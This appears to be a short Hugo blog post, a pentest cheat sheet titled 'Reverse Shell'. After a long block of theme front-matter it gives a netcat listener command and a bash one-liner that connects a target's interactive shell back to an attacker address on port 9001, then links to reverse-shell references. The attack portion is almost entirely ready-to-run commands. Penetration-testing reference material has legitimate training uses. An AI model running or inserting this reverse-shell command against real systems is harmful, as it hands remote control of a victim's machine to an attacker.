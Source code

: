 ```yaml
---
title: "Reverse Shell"
date: 2022-10-18T01:30:03+00:00
# weight: 1
# aliases: ["/first"]
tags: ["pentest"]
categories: ["cheatsheet"]
author: "Me"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Desc Text."
# canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
---
```


## Start a listener on attacker:
```
nc -lp 9001
# ip=10.10.10.10
# port=9001
```

## Run a shell on target:
* bash
```
bash -i >& /dev/tcp/192.168.1.10/9001 0>&1
```

## References
* https://www.revshells.com/
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet